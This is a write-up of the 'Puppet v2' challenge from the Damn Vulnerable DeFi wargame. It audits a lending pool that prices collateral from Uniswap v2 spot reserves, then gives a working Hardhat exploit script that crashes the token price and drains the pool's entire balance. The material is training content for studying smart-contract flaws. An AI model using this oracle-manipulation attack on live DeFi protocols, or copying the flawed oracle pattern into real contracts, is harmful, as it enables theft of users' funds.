

Wargame Provider: [@tinchoabbate](https://twitter.com/tinchoabbate)

# Challenge #9 - Puppet v2

The developers of the [last lending pool](https://www.damnvulnerabledefi.xyz/challenges/8.html) are saying that they've learned the lesson. And just released a new version!

Now they're using a [Uniswap v2 exchange](https://docs.uniswap.org/protocol/V2/introduction) as a price oracle, along with the recommended utility libraries. That should be enough.

You start with 20 ETH and 10000 DVT tokens in balance. The new
 lending pool has a million DVT tokens in balance. You know what to do 
;)

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/puppet-v2)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/puppet-v2/puppet-v2.challenge.js)

# Code Audit

## Transaction Flow

### Dependency Pattern

```solidity
UniswapV2Pair
UniswapV2Factory
UniswapV2Router02
```

- Based on Uniswap protocol v2, the CAMM model liquidity pool exchange method is used.
- `UniswapV2Pair`, acts as an AMM and tracks the pool token balance. Proceed to set up Oracle Price Data Feed
- `UniswapV2Factory`, which holds the generic bytecode that powers the factory pair, whose main task is to create only one smart contract per unique token pair.
- `UniswapV2Router`, a router using the library fully supports all the basic requirements of the front-end to provide trading and liquidity management functions, especially multi-pair trades (e.g. x to y to z) by default and Treats ETH as a first-class citizen and provides meta-transactions for liquidity removal.

### Setup flow

**Summary**

- Give 20 ether to the attacker's account
- DVT, WETH token contract deployment
- UniswapRouter Contract Deploy, 100 DVT, 10 WETH Create flexible DVT-WETH pair
- PuppetV2Pool Deploy, 1,000,000 DVT
- 10,000 DVT to attacker account

**State Variable (ERC20, ETH Balance Setup)**

```tsx
let deployer, attacker;

// Uniswap v2 exchange will start with 100 tokens and 10 WETH in liquidity
const UNISWAP_INITIAL_TOKEN_RESERVE = ethers.utils.parseEther('100');
const UNISWAP_INITIAL_WETH_RESERVE = ethers.utils.parseEther('10');

const ATTACKER_INITIAL_TOKEN_BALANCE = ethers.utils.parseEther('10000');
const POOL_INITIAL_TOKEN_BALANCE = ethers.utils.parseEther('1000000');

before(async function () {
  /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */  
  [deployer, attacker] = await ethers.getSigners();

  await ethers.provider.send("hardhat_setBalance", [
      attacker.address,
      "0x1158e460913d00000", // 20 ETH
  ]);
  expect(await ethers.provider.getBalance(attacker.address)).to.eq(ethers.utils.parseEther('20'));
```

- Deployer, attacker address assignment in progress.

```
<Init: Uniswap>
Uniswap Token Reserve = 100 ether
Uniswap WETH Reserve = 10 ether

<Init: Attacker Account>
Attacker Account Token Balance = 10000 ether

<Init: Lending Pool>
Lending Pool Token Balance = 1000000 ether
```

- Proceed with 20 ether allocation on the hardhat chain for the attacker account and declare the ether value for each contract and account.

**Contract or Account Deploy (deployer, attacker)**

```
<deployer account>

- UniswapV2Factory
- UniswapV2Router
- UniswapV2Pair
- DamnValuableToken
- WETH9
```

- Deploying the 5 contracts for the deployer account and allocating the initial instance.

**Deploy Uniswap Factory and Router**

```tsx
this.uniswapFactory = await UniswapFactoryFactory.deploy(ethers.constants.AddressZero);
this.uniswapRouter = await UniswapRouterFactory.deploy(
    this.uniswapFactory.address,
    this.weth.address
);
```

- When distributing the `uniswapV2Factory` contract, the `feeToSetter` value of the initial constructor is set to `address(0)` and is used for access control within the contract.
- Based on the `uniswapV2Router` contract, addresses of `uniswapFactory` and `weth` contracts are used for router operation and registration by function.

**Create UniswapPair against WETH and add liquidity**

```tsx
await this.token.approve(
    this.uniswapRouter.address,
    UNISWAP_INITIAL_TOKEN_RESERVE
);

await this.uniswapRouter.addLiquidityETH(
    this.token.address,
    UNISWAP_INITIAL_TOKEN_RESERVE,                              // amountTokenDesired
    0,                                                          // amountTokenMin
    0,                                                          // amountETHMin
    deployer.address,                                           // to
    (await ethers.provider.getBlock('latest')).timestamp * 2,   // deadline
    { value: UNISWAP_INITIAL_WETH_RESERVE }
);

this.uniswapExchange = await UniswapPairFactory.attach(
    await this.uniswapFactory.getPair(this.token.address, this.weth.address)
);

expect(await this.uniswapExchange.balanceOf(deployer.address)).to.be.gt('0');
```

- Based on the DVT token contract, the initial setup of the liquidity pool based on the `approve` work of `UNISWAP_INITIAL_TOKEN_RESERVE: 100 ether` to the address of the ‘uniswapRouter’ contract

**addLiquidityETH function instance**

```solidity
function addLiquidityETH(
  address token,
  uint amountTokenDesired,
  uint amountTokenMin,
  uint amountETHMin,
  address to,
  uint deadline
) external payable returns (uint amountToken, uint amountETH, uint liquidity);
```

- Adds liquidty to an ERC20 ↔ WETH pool with ETH.
- To cover all possible scenarios, `msg.sender` should have already given the router an allowance of at least amountTokenDesired on token.
- Always adds assets at the ideal ratio, according to the price when the transaction is executed.
- `msg.value` is treated as a amountETHDesired
- Letfover ETH, if any, is returned to `msg.sender`
- if a pool for the passed token and WETH does not exists, one is created automatically, and exactly amountTokenDesired / `msg.value` tokens are added.

```solidity
this.token.address,                                         // tokenAddress
UNISWAP_INITIAL_TOKEN_RESERVE,                              // amountTokenDesired
0,                                                          // amountTokenMin
0,                                                          // amountETHMin
deployer.address,                                           // to
(await ethers.provider.getBlock('latest')).timestamp * 2,   // deadline
{ value: UNISWAP_INITIAL_WETH_RESERVE }                     // msg.value
```

- Based on the DVT token contract address, allocate 100 ether to amountTokenDesired and then wrapper work, maintaining 10 ether in `msg.value` under current conditions

```tsx
this.uniswapExchange = await UniswapPairFactory.attach(
    await this.uniswapFactory.getPair(this.token.address, this.weth.address)
);
expect(await this.uniswapExchange.balanceOf(deployer.address)).to.be.gt('0');
```

- Based on the getPair function of the uniswapV2Exchange contract, the pair contract address of DVT and WETH tokens is secured and used for instance.
- Check if the balance value of uniswapExchange is 0

**Deploy the lending pool contract**

```tsx
this.lendingPool = await (await ethers.getContractFactory('PuppetV2Pool', deployer)).deploy(
    this.weth.address,
    this.token.address,
    this.uniswapExchange.address,
    this.uniswapFactory.address
);
```

- `PuppetV2Pool` contract instance processing in progress

**Setup initial token balances of pool and attacker account**

```tsx
await this.token.transfer(attacker.address, ATTACKER_INITIAL_TOKEN_BALANCE);
await this.token.transfer(this.lendingPool.address, POOL_INITIAL_TOKEN_BALANCE);
```

- Allocate 10000 ether to the attacker account and 100000 ether to the lending pool contract

**Ensure correct setup of pool**

```tsx
expect(
    await this.lendingPool.calculateDepositOfWETHRequired(ethers.utils.parseEther('1'))
).to.be.eq(ethers.utils.parseEther('0.3'));
expect(
    await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
).to.be.eq(ethers.utils.parseEther('300000'));
```

> PuppetV2Pool.sol
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
  function transfer(address to, uint256 amount) external returns (bool);
  function transferFrom(address from, address to, uint256 amount) external returns (bool);
  function balanceOf(address account) external returns (uint256);
}

/**
* @title PuppetV2Pool
* @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
*/
contract PuppetV2Pool {
  using SafeMath for uint256;

  address private _uniswapPair;
  address private _uniswapFactory;
  IERC20 private _token;
  IERC20 private _weth;
  
  mapping(address => uint256) public deposits;
      
  event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

  constructor (
      address wethAddress,
      address tokenAddress,
      address uniswapPairAddress,
      address uniswapFactoryAddress
  ) public {
      _weth = IERC20(wethAddress);
      _token = IERC20(tokenAddress);
      _uniswapPair = uniswapPairAddress;
      _uniswapFactory = uniswapFactoryAddress;
  }

  /**
   * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH
   *         Sender must have approved enough WETH in advance.
   *         Calculations assume that WETH and borrowed token have same amount of decimals.
   */
  function borrow(uint256 borrowAmount) external {
      require(_token.balanceOf(address(this)) >= borrowAmount, "Not enough token balance");

      // Calculate how much WETH the user must deposit
      uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);
      
      // Take the WETH
      _weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

      // internal accounting
      deposits[msg.sender] += depositOfWETHRequired;

      require(_token.transfer(msg.sender, borrowAmount));

      emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount, block.timestamp);
  }

  function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
      return _getOracleQuote(tokenAmount).mul(3) / (10 ** 18);
  }

  // Fetch the price from Uniswap v2 using the official libraries
  function _getOracleQuote(uint256 amount) private view returns (uint256) {
      (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
          _uniswapFactory, address(_weth), address(_token)
      );
      return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
  }
}
```

### Interface

```solidity
interface IERC20 {
  function transfer(address to, uint256 amount) external returns (bool);
  function transferFrom(address from, address to, uint256 amount) external returns (bool);
  function balanceOf(address account) external returns (uint256);
}
```

### State Variable && Event

```solidity
using SafeMath for uint256;

address private _uniswapPair;
address private _uniswapFactory;
IERC20 private _token;
IERC20 private _weth;

mapping(address => uint256) public deposits;
    
event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);
```

- Declare state variables for allocating dependent contract instances
- The `deposits` mapping data is used for the mapping structure to process user-specific deposits inside the `borrow` function.
- Task for querying internal event data when processing `borrow` function

### Functions

**constructor**

```solidity
constructor (
    address wethAddress,
    address tokenAddress,
    address uniswapPairAddress,
    address uniswapFactoryAddress
) public {
    _weth = IERC20(wethAddress);
    _token = IERC20(tokenAddress);
    _uniswapPair = uniswapPairAddress;
    _uniswapFactory = uniswapFactoryAddress;
}
```

- Initial instance assignment of DVT ERC20 token, WETH token, UniswapV2Pair, Factory Contract

**_getOracleQuote**

```solidity
function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
        _uniswapFactory, address(_weth), address(_token)
    );
    return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
}
```

- Get Oracle Price value using Uniswap Lib.
- Based on the `getReserves` function, call getReserves on the token pair passed as uniswapFactory, WETH, and DVT Contract parameters, and return the sorted results in the order in which the parameters are passed.
- Based on the `quote` function, given the amount of some asset and a reserve, it returns the amount of another asset that represents an equivalent value. (used to calculate the final token amount before calling the mint function)


**calculateDepositOfWETHRequired**

```solidity
function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
    return _getOracleQuote(tokenAmount).mul(3) / (10 ** 18);
}
```

- The Uniswap Oracle Price is determined by multiplying the optimized token quantity.

**borrow**

```solidity
function borrow(uint256 borrowAmount) external {
    require(_token.balanceOf(address(this)) >= borrowAmount, "Not enough token balance");

    // Calculate how much WETH the user must deposit
    uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);
    
    // Take the WETH
    _weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

    // internal accounting
    deposits[msg.sender] += depositOfWETHRequired;

    require(_token.transfer(msg.sender, borrowAmount));

    emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount, block.timestamp);
}
```

- If you guarantee 3 times the `msg.value` in the WETH token first, you can borrow the `borrowAmount` of the token.
- `sender` should proceed with sufficient WETH approve in advance.
- Calculation assumes that WETH and borrowAmount tokens have the same number of decimal places.

✅ The balance of the DVT token must be greater than or equal to the `borrowAmoun` value received as an argument.

- Calculate the amount of WETH the user needs to deposit by calling `borrowAmount` as an argument to the `calculateDepositOfWETRequired` function.
- Based on the `transferFrom` function of the WETH contract, the user transfers the requested WETH to this contract.
- When deposit processing is completed, internally, the `deposits` mapping structure is updated with each user's address.

✅ Call the `transfer` function of the DVT token to transfer as much as `borrowAmount` to the user

- Process the event.

# Vulnerability

- It can be confirmed that the vulnerability is similar to the existing PuppetPool Contract. A vulnerability occurs in the custom PuppetV2Pool.sol code that is actually dependent on Uniswap and WETH9 Contract.

```solidity
function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
    console.log(_getOracleQuote(tokenAmount));
    return _getOracleQuote(tokenAmount).mul(3) / (10 ** 18);
}

// Fetch the price from Uniswap v2 using the official libraries
function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
        _uniswapFactory, address(_weth), address(_token)
    );
    return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
}
```

- I am using Uniswap's official utility library. Since it is an important function that determines the Oracle Price Data feed required for the actual logic, it can be seen that this logic is in a high entropy state.
- In fact, if you look at the library, you can see that it is not much different from the UniswapV1 method.
- You have to manipulate the amount of the loan deposit in the same way. By selling as many tokens as possible, you can increase DVT's deposit and reduce the amount of Ether.

# Solve

```tsx
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const fromWei = (x) => web3.utils.fromWei(x);
  const _curInfo = async (status) => {
      console.log("\n" + status + "\n");
      console.log("[+] Oracle Calc Deposit Required")
      let _oracle = (await this.lendingPool.calculateDepositOfWETHRequired(ethers.utils.parseEther("1")))
      console.log("=> Oracle: " + fromWei(_oracle._hex) + "\n")
      console.log("[+] Attacker ETH-DVT Pair Balance")
      let attacker_eth = await ethers.provider.getBalance(attacker.address);
      let attacker_dtv = await this.token.balanceOf(attacker.address);
      let attacker_weth = await this.weth.balanceOf(attacker.address);

      console.log("=> Attacker ETH : " + fromWei(attacker_eth._hex) + "\n");    // attacker ETH
      console.log("=> Attacker DVT : " + fromWei(attacker_dtv._hex) + "\n");  // attacker DVT
      console.log("=> Attacker WETH : " + fromWei(attacker_weth._hex) + "\n"); // attacker WETH
      console.log("[+] LendingPool ETH-DVT Pair Balance");
      let pool_eth = await ethers.provider.getBalance(this.lendingPool.address);
      let pool_dtv = await this.token.balanceOf(this.lendingPool.address);
      let pool_weth = await this.weth.balanceOf(this.lendingPool.address);
      console.log("Lending Pool ETH : " + fromWei(pool_eth._hex) + "\n");    // lendingPool ETH
      console.log("Lending Pool DVT : " + fromWei(pool_dtv._hex) + "\n");  // lendingPool DVT
      console.log("Lending Pool WETH : " + fromWei(pool_weth._hex) + "\n");  // lendingPool WETH
      console.log("[+] Uniswap Exchange ETH-DVT Pair Balance");
      let exchange_eth = await ethers.provider.getBalance(this.uniswapExchange.address);
      let exchange_dtv = await this.token.balanceOf(this.uniswapExchange.address);
      let exchange_weth = await this.weth.balanceOf(this.uniswapExchange.address);

      console.log("Uniswap Exchange ETH : " + fromWei(exchange_eth._hex) + "\n");    // exchange ETH
      console.log("Uniswap Exchange DVT : " + fromWei(exchange_dtv._hex) + "\n");  // exchange DVT
      console.log("Uniswap Exchange WETH : " + fromWei(exchange_weth._hex) + "\n");  // exchange WETH
  }
  /** CODE YOUR EXPLOIT HERE */
  
  _curInfo("Initial");

  await this.token.connect(attacker).approve(
      this.uniswapRouter.address,
      ATTACKER_INITIAL_TOKEN_BALANCE
  );

  await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
      ATTACKER_INITIAL_TOKEN_BALANCE,                  // amountIn 
      0,                                               // amountOutMin 
      [this.token.address, this.uniswapRouter.WETH()], // path
      attacker.address,                                // to
      (await ethers.provider.getBlock('latest')).timestamp * 2,   // deadline
  );

  _curInfo("State");

  const oraclePool = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
  console.log("Oracle Pool: " + fromWei(oraclePool._hex) + "\n");

  await this.weth.connect(attacker).deposit({ value: oraclePool });
  await this.weth.connect(attacker).approve(this.lendingPool.address, oraclePool);
  await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);

  _curInfo("Fini");
  
});
```


## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)

```toc
```